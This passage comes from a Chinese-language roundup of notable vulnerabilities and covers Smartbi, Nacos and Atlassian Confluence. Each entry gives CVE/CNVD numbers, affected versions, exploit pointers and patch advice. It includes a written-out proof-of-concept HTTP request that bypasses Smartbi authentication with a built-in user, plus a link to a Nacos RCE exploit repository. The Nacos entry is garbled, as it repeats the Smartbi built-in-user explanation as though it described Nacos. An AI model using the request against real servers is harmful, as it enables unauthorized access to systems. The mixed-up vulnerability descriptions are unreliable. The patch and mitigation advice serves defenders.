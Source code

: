     
    
    {"retCode":"CLIENT_USER_NOT_LOGIN","result":"尚未登录或会话过期"}  
    

poc

    
    
    POST /smartbi/vision/RMIServlet HTTP/1.1  
    Host: your-ip  
    Content-Type: application/x-www-form-urlencoded  
       
    className=UserService&methodName=loginFromDB&params=["system","0a"]  
    

 **修复建议**  
官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：  
https://www.smartbi.com.cn/patchinfo

# 18、 **Nacos 集群 Raft 反序列化漏洞**

该漏洞源于 Nacos 集群处理部分 Jraft 请求时，未限制使用 hessian 进行反
。序列化，攻击者可以通过发送特制的请求触发该漏洞，最终执行任意远程代码。  
该漏洞源于 Smartbi
默认存在内置用户，在使用特定接口时，攻击者可绕过用户身份认证机制获取内置用户身份凭证，随后可使用获取的身份凭证调用后台接口，最终可能导致敏感信息泄露和代码执行。  
 **漏洞标签：** 利用链成熟、国产框架、影响范围广、服务器权限相关  
 **漏洞编号：** CNVD-2023-45001  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. 1.4.0 <= Nacos < 1.4.6
  2. 2.0.0 <= Nacos < 2.2.3

 **利用方法：**  
exp  
https://github.com/c0olw/NacosRce/  
 **修复建议**

  1. 默认配置下该漏洞仅影响 Nacos 集群间 Raft 协议通信的 7848 端口，此端口不承载客户端请求，可以通过限制集群外部 IP 访问 7848 端口来进行缓解。
  2. 官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本： https://github.com/alibaba/nacos/releases

# 19、 **Atlassian Confluence OGNL 表达式注入漏洞**

在 Atlassian Confluence Server and Data Center 上存在 OGNL 注入漏洞，  
恶意攻击者可以利用该漏洞发送特制请求从而在目标服务器上注入恶意 OGNL  
表达式，造成远程执行代码并部署 WebShell。  
 **漏洞标签：** 利用链成熟、历史重大漏洞、涉及重点系统  
 **漏洞编号：** CVE-2022-26134  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. Atlassian Confluence Server and Data Center >= 1.3.0
  2. Atlassian Confluence Server and Data Center < 7.4.17
  3. Atlassian Confluence Server and Data Center < 7.13.7
  4. Atlassian Confluence Server and Data Center < 7.14.3
  5. Atlassian Confluence Server and Data Center < 7.15.2
  6. Atlassian Confluence Server and Data Center < 7.16.4
  7. Atlassian Confluence Server and Data Center < 7.17.4
  8. Atlassian Confluence Server and Data Center < 7.18.1
